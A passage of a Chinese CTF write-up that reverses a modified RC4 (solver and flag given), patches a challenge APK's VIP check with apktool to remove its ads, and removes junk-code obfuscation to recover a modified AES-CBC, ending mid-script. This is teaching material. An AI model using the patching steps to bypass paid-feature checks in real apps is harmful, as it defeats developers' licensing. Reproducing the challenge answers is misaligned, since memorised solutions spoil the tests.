            while ( n256 != 256 );
            v114 = 0;
            while ( nc != nc_1 )
            {
              v115 = *((unsigned __int8 *)&tp[0].tv_sec + (unsigned __int8)(nc_1 + 1));
              v114 += v115;
              *((_BYTE *)&tp[0].tv_sec + (unsigned __int8)(nc_1 + 1)) = *((_BYTE *)&tp[0].tv_sec + (unsigned __int8)v114);
              *((_BYTE *)&tp[0].tv_sec + (unsigned __int8)v114) = v115;
              sizea[nc_1] = *((_BYTE *)&tp[0].tv_sec
                            + (unsigned __int8)(*((_BYTE *)&tp[0].tv_sec + (unsigned __int8)(nc_1 + 1)) + v115))
                          ^ (ptr_8[nc_1] + 2);
              ++nc_1;
            }
```

关键是 `758-790` 行：它每次写一个 128\-bit，也就是 16 字节，循环 16 次，总共写：16 \* 16 = 256 bytes

猜想是一个SBox

KSA 是 `791-804` 行：

```c
tp_1 = tp;
v110 = 0;
n256 = 0;
do
{
  n256_1 = n256;
  tv_sec_low = LOBYTE(tp_1->tv_sec);
  ++n256;
  tp_1 = (struct timespec *)((char *)tp_1 + 1);
  v110 += tv_sec_low + (unsigned __int8)v138[n256_1 & 0xF];
  HIBYTE(tp_1[-1].tv_nsec) = *((_BYTE *)&tp[0].tv_sec + (unsigned __int8)v110);
  *((_BYTE *)&tp[0].tv_sec + (unsigned __int8)v110) = tv_sec_low;
}
while ( n256 != 256 );
```

这里大概需要一些AI的辅助会更容易看出来：

```c
j = 0;
for (i = 0; i < 256; i++) {
    old = S[i];
    j = j + S[i] + key[i & 0xf];
    S[i] = S[j];
    S[j] = old;
}
```

key 来自 `644-656` 行，这段循环 8 次，每次拿一个单词的第一个字符，然后写两次。

PRGA 是 `805-815` 行：

```c
v114 = 0;
while ( nc != nc_1 )
{
  v115 = *((unsigned __int8 *)&tp[0].tv_sec + (unsigned __int8)(nc_1 + 1));
  v114 += v115;
  *((_BYTE *)&tp[0].tv_sec + (unsigned __int8)(nc_1 + 1)) =
      *((_BYTE *)&tp[0].tv_sec + (unsigned __int8)v114);
  *((_BYTE *)&tp[0].tv_sec + (unsigned __int8)v114) = v115;
  sizea[nc_1] =
      *((_BYTE *)&tp[0].tv_sec
        + (unsigned __int8)(*((_BYTE *)&tp[0].tv_sec + (unsigned __int8)(nc_1 + 1)) + v115))
      ^ (ptr_8[nc_1] + 2);
  ++nc_1;
}
```

还原一下：

```c
j = 0;
for (pos = 0; pos < len; pos++) {
    i = pos + 1;
    old = S[i];

    j = j + S[i];
    S[i] = S[j];
    S[j] = old;

    k = S[S[i] + S[j]];
    sizea[pos] = k ^ (input[pos] + 2);
}
```

注意进行了一点魔改。

**有一个小坑是S盒本身也进行了魔改：**

`_mm_packus_epi16(...)` 那坨会生成连续字节，

第一轮里：

```text
si128 = [0, 1, 2, 3]       // 4 个 32-bit lane
v92   = [4, 4, 4, 4]
v93   = [8, 8, 8, 8]
v95   = [12, 12, 12, 12]
```

经过各种 `_mm_unpacklo_epi16` / `_mm_unpackhi_epi16` 重排之后，`_mm_packus_epi16(...)` 得到的是：

```text
00 01 02 03 04 05 06 07 08 09 0a 0b 0c 0d 0e 0f
```

```text
_mm_add_epi8(..., v96)
```

而 `v96` 是：

```text
02 02 02 02 02 02 02 02 02 02 02 02 02 02 02 02
```

所以第一轮真正写入的是：

```text
02 03 04 05 06 07 08 09 0a 0b 0c 0d 0e 0f 10 11
```

相当于S盒整体偏移 0x2。

exp:

```python
#!/usr/bin/env python3
import sys

RC4_KEY_LEN = 16
SBOX_SIZE = 256
WORD_COUNT = 8


def parse_words(line: str) -> list[str]:
    words = line.strip().lower().split()
    if len(words) != WORD_COUNT:
        raise ValueError(f"expected exactly {WORD_COUNT} words")
    if any((not w.isascii()) or (not w.isalpha()) for w in words):
        raise ValueError("words must contain ASCII letters only")
    return words


def derive_key(words: list[str]) -> bytes:
    initials = ''.join(word[0] for word in words).encode()
    return initials + initials


def magic_rc4_keystream(length: int, key: bytes) -> bytes:
    s = [(i + 2) & 0xFF for i in range(SBOX_SIZE)]

    j = 0
    for i in range(SBOX_SIZE):
        j = (j + s[i] + key[i % RC4_KEY_LEN]) & 0xFF
        s[i], s[j] = s[j], s[i]

    i = 0
    j = 0
    stream = bytearray()
    for _ in range(length):
        i = (i + 1) & 0xFF
        j = (j + s[i]) & 0xFF
        s[i], s[j] = s[j], s[i]
        t = (s[i] + s[j]) & 0xFF
        stream.append(s[t])

    return bytes(stream)


def solve(words: list[str]) -> tuple[str, bytes]:
    chain = ''.join(words)
    target = chain.encode()
    key = derive_key(words)
    stream = magic_rc4_keystream(len(target), key)

    # Server: output = ((input + 2) & 0xff) ^ keystream
    # Reverse: input = ((output ^ keystream) - 2) & 0xff
    answer = bytes((((c ^ k) - 2) & 0xFF) for c, k in zip(target, stream))
    return chain, answer


def main() -> int:
    print("=== Word Champion Solver ===")
    line = input("Paste the 8 words (space-separated): ")

    try:
        words = parse_words(line)
        chain, answer = solve(words)
    except ValueError as exc:
        print(f"error: {exc}", file=sys.stderr)
        return 2

    print(f"Word chain : {chain}")
    print(f"Key initials: {''.join(word[0] for word in words)}")
    print(f"Submit HEX : {answer.hex()}")
    return 0


if __name__ == "__main__":
    raise SystemExit(main())
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

flag2:

```text
susctf{m@gg1c_RC4_1s_fun!!:D}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### 讨厌的广告

> 这什么软件啊怎么只有广告🤯

本来是想做一个类似于开屏广告的垃圾软件（紧扣时事这一块 

后来找了一圈没想好去哪里找广告 加上有点不会写 于是去开源素材库找了一些视频（

为什么大家都在**逆向协议**（虽然也是预期解之一 印象中只看到了一位师傅是 patch apk 做的

其实也是想借机熟悉一下 patch APK 的方法，~~万一自己哪天有需求（啊我什么都没说~~

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

安装一下，可以发现软件一直在播放广告\(x，而且无法关闭

那就直接开逆！对于安卓apk，我们使用jadx打开安装包



```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    android:versionCode="1"
    android:versionName="1.0"
    android:compileSdkVersion="35"
    android:compileSdkVersionCodename="15"
    package="com.susctf.adless"
    platformBuildVersionCode="35"
    platformBuildVersionName="15">
    <uses-sdk
        android:minSdkVersion="24"
        android:targetSdkVersion="35"/>
    <uses-permission android:name="android.permission.INTERNET"/>
    <application
        android:theme="@style/Theme.ADless"
        android:label="ADLess"
        android:allowBackup="false"
        android:supportsRtl="true"
        android:extractNativeLibs="false"
        android:usesCleartextTraffic="false">
        <activity
            android:name="com.susctf.adless.MainActivity"
            android:exported="true"
            android:screenOrientation="portrait">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
    </application>
</manifest>
```

根据 `AndroidManifest.xml` 可以得知程序的入口点是 `MainActivity`

从左侧源代码可以找到

首先，可以发现onCreate函数有关于 VIP 的字段，

```java
**protected** **void** onCreate(Bundle bundle) {
        **super**.onCreate(bundle);
        setContentView(R.layout.activity_main);
        FrameLayout frameLayout = (FrameLayout) findViewById(R.id.root);
        **this**.tokenInput = (EditText) findViewById(R.id.tokenInput);
        **this**.checkButton = (Button) findViewById(R.id.checkButton);
        **this**.statusText = (TextView) findViewById(R.id.statusText);
        **this**.accountText = (TextView) findViewById(R.id.accountText);
        **this**.trafficClient = **new** TrafficClient();
        **boolean** zIsVip = VipGate.isVip();
        **this**.accountText.setText(zIsVip ? "Account: VIP" : "Account: FREE");
        **this**.checkButton.setOnClickListener(**new** View.OnClickListener() { *// from class: com.susctf.adless.MainActivity$$ExternalSyntheticLambda0*
            @Override *// android.view.View.OnClickListener*
            **public** **final** **void** onClick(View view) {
                **this**.f$0.onCheckClicked(view);
            }
        });
        **if** (zIsVip) {
            **return**;
        }
        **new** AdHell(**this**, frameLayout).start();
    }
```

并且在最后出现了一个if判断，那我们不妨看看AdHell是什么



通过这里可以确定这就是引起广告的元凶，所以我们只需要让 `zIsVip==true` 即可



简单追踪一下到VipGate类，非常简单，IsVip始终返回true，所以我们只需要改为false即可。

询问ai可以知道，对于安卓的patch，用apktool是很好的方法。https://github\.com/iBotPeaches/Apktool/releases/tag/v3\.0\.3

（部分系统的软件包apktool版本较老，可以手动安装）

```bash
apktool d app-release.apk -o app_dec
```

然后前往app\_dec进行patch。

我们找到对应的patch点：`E:\app_dec\smali\com\susctf\adless\VipGate.smali`

[Smali](https://ctf-wiki.org/android/basic_operating_mechanism/java_layer/smali/smali/)代码对于新生是颇有难度的，好在这个类足够简单，不管是问AI还是发挥想象应该都能看懂

```text
.method static isVip()Z
    .locals 1

    const/4 v0, 0x0

    return v0
.end method
```

- 定义了一个 **静态方法** `isVip()`，返回类型是 `Z`（boolean）。

- `.locals 1`：方法里有一个本地变量槽。

- `const/4 v0, 0x0`：把常量 `0`（false）存到变量 `v0`。

所以我们把 0x0 改成 0x1 即可

然后用 apktool 重新打回apk



随后用 apksigner 进行签名

```bash
apksigner sign   --ks /mnt/f/appkey.jks   --out patched-signed.apk   patched.apk
```

最后安装即可，此时已经没有广告了。

提示说要粘贴实例token，我们开启容器，粘贴 wsrx token即可


<div class="post-spacer" aria-hidden="true"></div>

---

### 送你一束小花花

> R: 同学同学🥰，快看有🌺
>
> R: 题目出完没有！😡
>
> R: 😭😭😭我只是想给你看看这朵🌺好多🌺🌺啊😭

碎碎念 有人发现这个题干是从去年的 ez_osint 改编而来的吗

这题也是类似教学题 上了四种花指令

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

简单修复一下主函数

```c++
int __fastcall main()
{
  int v0; // ebx
  std::string flag; // [rsp+0h] [rbp-30h] BYREF

  std::ios_base::sync_with_stdio(0);
  std::ios::tie(&unk_40C230, 0);
  if ( sub_403701() )
  {
    std::operator<<<std::char_traits<char>>(&std::cout, "Input your flag: ");
    std::string::basic_string(&flag);
    std::getline<char,std::char_traits<char>,std::allocator<char>>(&std::cin, &flag);
    if ( sub_407A9C() )
    {
      if ( sub_403F45(&flag) )
        std::operator<<<std::char_traits<char>>(&std::cout, "Correct!\n");
      else
        std::operator<<<std::char_traits<char>>(&std::cout, "Wrong flag.\n");
      v0 = 0;
    }
    else
    {
      std::operator<<<std::char_traits<char>>(&std::cout, "Nice try.\n");
      v0 = 1;
    }
    std::string::~string(&flag);
  }
  else
  {
    std::operator<<<std::char_traits<char>>(&std::cout, "Nice try.\n");
    return 1;
  }
  return v0;
}
```



代码存疑，若 IDA 分析正确则始终返回false，明显不对。切换到汇编视角

```asm
.text:0000000000403F45                 push    rbp
.text:0000000000403F46                 mov     rbp, rsp
.text:0000000000403F49                 push    rbx
.text:0000000000403F4A                 sub     rsp, 48h
.text:0000000000403F4E                 mov     [rbp+p_flag], rdi
.text:0000000000403F52                 pushfq
.text:0000000000403F53                 mov     eax, 13579BDFh
.text:0000000000403F58                 xor     eax, 13579BDFh
.text:0000000000403F5D                 test    eax, eax
.text:0000000000403F5F                 jz      short loc_403F66
.text:0000000000403F61                 jmp     near ptr 44736177h
.text:0000000000403F66 ; ---------------------------------------------------------------------------
.text:0000000000403F66
.text:0000000000403F66 loc_403F66:                             ; CODE XREF: sub_403F45+1A↑j
.text:0000000000403F66                 popfq
.text:0000000000403F67                 mov     rax, [rbp+p_flag]
.text:0000000000403F6B                 mov     rdi, rax
.text:0000000000403F6E                 call    _ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE4sizeEv ; std::string::size(void)
.text:0000000000403F73                 cmp     rax, 0Fh
.text:0000000000403F77                 jbe     short loc_403F8B
.text:0000000000403F79                 mov     rax, [rbp+p_flag]
.text:0000000000403F7D                 mov     rdi, rax
.text:0000000000403F80                 call    _ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE4sizeEv ; std::string::size(void)
.text:0000000000403F85                 cmp     rax, 50h ; 'P'
.text:0000000000403F89                 jbe     short loc_403F92
.text:0000000000403F8B
.text:0000000000403F8B loc_403F8B:                             ; CODE XREF: sub_403F45+32↑j
.text:0000000000403F8B                 mov     eax, 1
.text:0000000000403F90                 jmp     short loc_403F97
.text:0000000000403F92 ; ---------------------------------------------------------------------------
.text:0000000000403F92
.text:0000000000403F92 loc_403F92:                             ; CODE XREF: sub_403F45+44↑j
.text:0000000000403F92                 mov     eax, 0
.text:0000000000403F97
.text:0000000000403F97 loc_403F97:                             ; CODE XREF: sub_403F45+4B↑j
.text:0000000000403F97                 test    al, al
.text:0000000000403F99                 jz      short loc_403FA5
.text:0000000000403F9B                 mov     ebx, 0
.text:0000000000403FA0                 jmp     loc_40403B
.text:0000000000403FA5 ; ---------------------------------------------------------------------------
.text:0000000000403FA5
.text:0000000000403FA5 loc_403FA5:                             ; CODE XREF: sub_403F45+54↑j
.text:0000000000403FA5                 lea     rax, [rbp+var_40]
.text:0000000000403FA9                 mov     rdx, [rbp+p_flag]
.text:0000000000403FAD                 mov     rsi, rdx        ; p_flag
.text:0000000000403FB0                 mov     rdi, rax        ; _QWORD
.text:0000000000403FB3                 call    sub_403E30
.text:0000000000403FB8 ; ---------------------------------------------------------------------------
.text:0000000000403FB8                 lea     rax, [rbp+var_40]
.text:0000000000403FBC                 mov     rdi, rax
.text:0000000000403FBF                 call    sub_404C7C
.text:0000000000403FC4                 cmp     rax, 30h ; '0'
.text:0000000000403FC8                 setnz   al
.text:0000000000403FCB                 test    al, al
.text:0000000000403FCD                 jz      short loc_403FD6
.text:0000000000403FCF                 mov     ebx, 0
.text:0000000000403FD4                 jmp     short loc_40402F
.text:0000000000403FD6 ; ---------------------------------------------------------------------------
.text:0000000000403FD6
.text:0000000000403FD6 loc_403FD6:                             ; CODE XREF: sub_403F45+88↑j
.text:0000000000403FD6                 mov     [rbp+var_11], 0
.text:0000000000403FDA                 mov     [rbp+var_20], 0
.text:0000000000403FE2                 jmp     short loc_404011
.text:0000000000403FE4 ; ---------------------------------------------------------------------------
.text:0000000000403FE4
.text:0000000000403FE4 loc_403FE4:                             ; CODE XREF: sub_403F45+E1↓j
.text:0000000000403FE4                 mov     rdx, [rbp+var_20]
.text:0000000000403FE8                 lea     rax, [rbp+var_40]
.text:0000000000403FEC                 mov     rsi, rdx
.text:0000000000403FEF                 mov     rdi, rax
.text:0000000000403FF2                 call    sub_404FFA
.text:0000000000403FF7                 movzx   edx, byte ptr [rax]
.text:0000000000403FFA                 mov     rax, [rbp+var_20]
.text:0000000000403FFE                 add     rax, 408380h
.text:0000000000404004                 movzx   eax, byte ptr [rax]
.text:0000000000404007                 xor     eax, edx
.text:0000000000404009                 or      [rbp+var_11], al
.text:000000000040400C                 add     [rbp+var_20], 1
.text:0000000000404011
.text:0000000000404011 loc_404011:                             ; CODE XREF: sub_403F45+9D↑j
.text:0000000000404011                 lea     rax, [rbp+var_40]
.text:0000000000404015                 mov     rdi, rax
.text:0000000000404018                 call    sub_404C7C
.text:000000000040401D                 cmp     [rbp+var_20], rax
.text:0000000000404021                 setb    al
.text:0000000000404024                 test    al, al
.text:0000000000404026                 jnz     short loc_403FE4
.text:0000000000404028                 cmp     [rbp+var_11], 0
.text:000000000040402C                 setz    bl
.text:000000000040402F
.text:000000000040402F loc_40402F:                             ; CODE XREF: sub_403F45+8F↑j
.text:000000000040402F                 lea     rax, [rbp+var_40]
.text:0000000000404033                 mov     rdi, rax
.text:0000000000404036                 call    sub_404BA8
.text:000000000040403B
.text:000000000040403B loc_40403B:                             ; CODE XREF: sub_403F45+5B↑j
.text:000000000040403B                 mov     eax, ebx
.text:000000000040403D                 mov     rbx, [rbp+var_8]
.text:0000000000404041                 leave
.text:0000000000404042                 retn
.text:0000000000404042 ; } // starts at 403F45
.text:0000000000404042 sub_403F45      endp
```

不难发现有一处刺眼的红色。这是因为程序被掺杂了**花指令（Junk Code\)**，可以手动分析汇编、进行去花。

首先是

```asm
.text:0000000000403F52                 pushfq
.text:0000000000403F53                 mov     eax, 13579BDFh
.text:0000000000403F58                 xor     eax, 13579BDFh
.text:0000000000403F5D                 test    eax, eax
.text:0000000000403F5F                 jz      short loc_403F66
.text:0000000000403F61                 jmp     near ptr 44736177h
.text:0000000000403F66 ; ---------------------------------------------------------------------------
.text:0000000000403F66
.text:0000000000403F66 loc_403F66:                             ; CODE XREF: sub_403F45+1A↑j
.text:0000000000403F66                 popfq
```

0x13579BDF XOR 0x13579BDF = 0，所以

```asm
test eax,eax
jz 403F66
```

**100% 跳转。**

花指令直接NOP，此时反编译结果仍然不对，那么按照顺序追踪一下其他函数

```asm
.text:0000000000403E41                 jmp     short loc_403E49
.text:0000000000403E41 ; ---------------------------------------------------------------------------
.text:0000000000403E43                 db 0Fh, 84h, 78h, 56h, 34h
.text:0000000000403E48                 db 12h
.text:0000000000403E49 ; ---------------------------------------------------------------------------
.text:0000000000403E49
.text:0000000000403E49 loc_403E49:                             ; CODE XREF: sub_403E30+11↑j
.text:0000000000403E49                 mov     rax, [rbp+var_58]
```

按照执行流会直接 jmp 403E49，因此中间部分是垃圾字节。

修复完之后此时 403F45 函数已经正常，简单优化一下

```c++
bool __fastcall check(std::string *p_flag)
{
  bool v2; // bl
  unsigned __int8 *v3; // rax
  unsigned __int64 size; // rax
  ByteVec ByteVec_; // [rsp+10h] [rbp-40h] BYREF
  unsigned __int64 i; // [rsp+30h] [rbp-20h]
  char v8; // [rsp+3Fh] [rbp-11h]

  if ( (unsigned __int64)std::string::size(p_flag) <= 0xF || (unsigned __int64)std::string::size(p_flag) > 0x50 )
    return 0;
  sub_403E30(&ByteVec_, p_flag);
  if ( getSize(&ByteVec_) == 48 )
  {
    v8 = 0;
    for ( i = 0; ; ++i )
    {
      size = getSize(&ByteVec_);
      if ( i >= size )
        break;
      v3 = vector_at(&ByteVec_, i);
      v8 |= *v3 ^ *(_BYTE *)(i + 4227968);
    }
    v2 = v8 == 0;
  }
  else
  {
    v2 = 0;
  }
  sub_404BA8(&ByteVec_);
  return v2;
}
```

然后追踪到函数 403D1F

```asm
.text:0000000000403D30                 mov     eax, 7
.text:0000000000403D35                 imul    eax, 7
.text:0000000000403D38                 cmp     eax, 31h ; '1'
.text:0000000000403D3B                 jnz     short loc_403D3F
.text:0000000000403D3D                 jmp     short loc_403D44
.text:0000000000403D3F ; ---------------------------------------------------------------------------
.text:0000000000403D3F
.text:0000000000403D3F loc_403D3F:                             ; CODE XREF: sub_403D1F+1C↑j
.text:0000000000403D3F                 call    near ptr 0FFFFFFFFEFFEEB22h
```

7\*7=49=0x31，所以一定不会跳转到 3D3F ，这是花指令\.

403CB6：

```asm
.text:0000000000403CBE                 call    sub_403CCA
.text:0000000000403CC3                 ud2
.text:0000000000403CC3 sub_403CB6      endp
.text:0000000000403CC3
.text:0000000000403CC3 ; ---------------------------------------------------------------------------
.text:0000000000403CC5                 db 0E8h, 0AAh, 0BBh
.text:0000000000403CC8                 db 0CCh
.text:0000000000403CC9                 db 0DDh
.text:0000000000403CCA
.text:0000000000403CCA ; =============== S U B R O U T I N E =======================================
.text:0000000000403CCA
.text:0000000000403CCA
.text:0000000000403CCA ; __int64 __fastcall sub_403CCA(std::vector<unsigned char> *ByteVec, std::string *p_flag)
.text:0000000000403CCA sub_403CCA      proc near               ; CODE XREF: sub_403CB6+8↑p
.text:0000000000403CCA                 pop     rax
```

sub\_403CCA不是函数，干扰了反汇编器分析。中间填充的都是垃圾字节

注意到

```asm
RAX:
63 74 66 5F 6E 65 77 62
 c  t  f  _  n  e  w  b

RDX:
69 65 5F 61 65 73 21 21
 i  e  _  a  e  s  !  !
```

猜测返回了一个Key，根据提示这是AES

经过艰难的还原， 403E30 函数大致为

```c++
void __fastcall sub_403E30(std::vector<unsigned char> *ByteVec, std::string *p_flag)
{
  unsigned __int8 *v2; // rax
  __int64 v3; // rax
  __int64 v4; // rax
  _QWORD *v5; // rax
  __int64 v6; // rdx
  unsigned __int64 Size_1; // rax
  ByteArray16 Iv_1; // [rsp+10h] [rbp-50h]
  ByteArray16 Iv; // [rsp+20h] [rbp-40h]
  ByteArray16 Key; // [rsp+30h] [rbp-30h] BYREF
  int i; // [rsp+44h] [rbp-1Ch]
  unsigned __int64 i_1; // [rsp+48h] [rbp-18h]

  PKCS7(ByteVec, p_flag);
  Key = getKey();
  Iv = getIv();
  Iv_1 = Iv;
  for ( i_1 = 0; ; i_1 += 16LL )
  {
    Size_1 = getSize(ByteVec);
    if ( i_1 >= Size_1 )
      break;
    for ( i = 0; i <= 15; ++i )
    {
      v2 = vector_at_0(ByteVec, i_1 + i);
      *v2 ^= Iv_1._M_elems[i];
    }
    v3 = returnStart(ByteVec);
    sub_403BB2(i_1 + v3, &Key);
    v4 = returnStart(ByteVec);
    v5 = (_QWORD *)(i_1 + v4);
    v6 = v5[1];
    *(_QWORD *)Iv_1._M_elems = *v5;
    *(_QWORD *)&Iv_1._M_elems[8] = v6;
  }
}
```

近似于

```asm
prev = IV;

for (off = 0; off < data.size(); off += 16)
{
    // ① 当前明文块 XOR 上一块密文
    for (i = 0; i < 16; ++i)
        data[off + i] ^= prev[i];

    // ② 加密当前 16 字节
    AES_encrypt(data + off, key);

    // ③ 当前密文成为下一轮的 prev
    memcpy(prev, data + off, 16);
}
```

是AES\-CBC加密

直接调用标准解密失败了，证明存在魔改点，接下来分析未解密的函数 `403BB2`

根据标准算法

```text
KeyExpansion

AddRoundKey

Round 1~9:
    SubBytes
    ShiftRows
    MixColumns
    AddRoundKey

Round 10:
    SubBytes
    ShiftRows
    AddRoundKey
```

找到函数 `403834`，可知

```c++
state[0]  = old[0];
state[4]  = old[4];
state[8]  = old[8];
state[12] = old[12];

state[1]  = old[5];
state[5]  = old[9];
state[9]  = old[13];
state[13] = old[1];

state[2]  = old[6];
state[6]  = old[10];
state[10] = old[14];
state[14] = old[2];      // ← 魔改：左移1，而标准 AES 应左移2

state[3]  = old[15];
state[7]  = old[3];
state[11] = old[7];
state[15] = old[11];
```

寻找密文是不难的

```python
def gm(a, b):
    r = 0
    for _ in range(8):
        if b & 1:
            r ^= a
        a = ((a << 1) & 0xff) ^ (0x1b if a & 0x80 else 0)
        b >>= 1
    return r


def gp(a, n):
    r = 1
    while n:
        if n & 1:
            r = gm(r, a)
        a = gm(a, a)
        n >>= 1
    return r


def rol8(x, n):
    return ((x << n) | (x >> (8 - n))) & 0xff


def make_sbox():
    s = []
    for x in range(256):
        y = 0 if x == 0 else gp(x, 254)
        s.append(
            y ^ rol8(y, 1) ^ rol8(y, 2) ^
            rol8(y, 3) ^ rol8(y, 4) ^ 0x63
        )
    return s


SBOX = make_sbox()
INV_SBOX = [0] * 256
for i, v in enumerate(SBOX):
    INV_SBOX[v] = i

RCON = [0, 1, 2, 4, 8, 0x10, 0x20, 0x40, 0x80, 0x1b, 0x36]


def expand_key(key):
    w = list(key)
    n = 16
    rc = 1

    while n < 176:
        t = w[n - 4:n]

        if n % 16 == 0:
            t = [SBOX[t[1]], SBOX[t[2]], SBOX[t[3]], SBOX[t[0]]]
            t[0] ^= RCON[rc]
            rc += 1

        for i in range(4):
            w.append(w[n - 16] ^ t[i])
            n += 1

    return w


def add_round_key(state, key):
    return [a ^ b for a, b in zip(state, key)]


def inv_sub_bytes(state):
    return [INV_SBOX[x] for x in state]


def inv_shift_rows(state):
    t = state[:]
    s = [0] * 16

    # row 0
    s[0], s[4], s[8], s[12] = t[0], t[4], t[8], t[12]

    # row 1: encryption ROL 1 -> decryption ROR 1
    s[1], s[5], s[9], s[13] = t[13], t[1], t[5], t[9]

    # row 2: 题目魔改为 ROL 1，因此这里也是 ROR 1
    s[2], s[6], s[10], s[14] = t[14], t[2], t[6], t[10]

    # row 3: encryption ROL 3 -> inverse ROR 3
    s[3], s[7], s[11], s[15] = t[7], t[11], t[15], t[3]

    return s


def inv_mix_columns(state):
    out = [0] * 16

    for c in range(4):
        a = state[4 * c:4 * c + 4]

        out[4*c+0] = gm(a[0],14) ^ gm(a[1],11) ^ gm(a[2],13) ^ gm(a[3],9)
        out[4*c+1] = gm(a[0],9)  ^ gm(a[1],14) ^ gm(a[2],11) ^ gm(a[3],13)
        out[4*c+2] = gm(a[0],13) ^ gm(a[1],9)  ^ gm(a[2],14) ^ gm(a[3],11)
        out[4*c+3] = gm(a[0],11) ^ gm(a[1],13) ^ gm(a[2],9)  ^ gm(a[3],14)

    return out


def decrypt_block(block, key):
    rk = expand_key(key)
    s = list(block)

    s = add_round_key(s, rk[160:176])
    s = inv_shift_rows(s)
    s = inv_sub_bytes(s)

    for rnd in range(9, 0, -1):
        s = add_round_key(s, rk[16*rnd:16*(rnd+1)])
        s = inv_mix_columns(s)
        s = inv_shift_rows(s)
        s = inv_sub_bytes(s)

    s = add_round_key(s, rk[:16])
    return bytes(s)


key = b"ctf_newbie_aes!!"
iv = bytes.fromhex(
    "23519ae71042668cb1d32f745ac80e39"
)

ciphertext = bytes.fromhex("55CCE0703902EC749FE022F2631D6B5AF0FB8D4091211737D35150019F867241BCA38BC58CF690E94615102FC0F09F63")

plaintext = b""
prev = iv

for off in range(0, len(ciphertext), 16):
    c = ciphertext[off:off + 16]
    x = decrypt_block(c, key)
    plaintext += bytes(a ^ b for a, b in zip(x, prev))
